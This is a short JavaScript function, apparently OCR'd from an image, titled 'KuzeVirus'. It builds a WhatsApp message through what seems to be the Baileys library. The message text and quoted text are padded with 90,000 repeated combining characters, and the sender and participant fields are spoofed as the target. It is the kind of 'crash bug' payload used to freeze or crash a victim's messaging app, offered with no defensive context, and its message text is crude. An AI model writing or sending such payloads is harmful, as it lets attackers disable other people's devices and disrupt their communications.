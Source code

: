 async function KuzeVirus(target) {
  const message = {
    extendedTextMessage: {
      text: `My dick really hurts :v` + "࣯ꦾ".repeat(90000),
      contextInfo: {
        fromMe: false,
        stanzaId: target,
        participant: target,
        quotedMessage: {
          conversation: "Gpp dah :v" + "ꦾ".repeat(90000),
        },
        disappearingMode: {
          initiator: "CHANGED_IN_CHAT",
          trigger: "CHAT_SETTING",
        },
      },
      inviteLinkGroupTypeV2: "DEFAULT",
    },
  };

  await sock.relayMessage(target, message, { 
  participant: { jid: target } 
  });
}
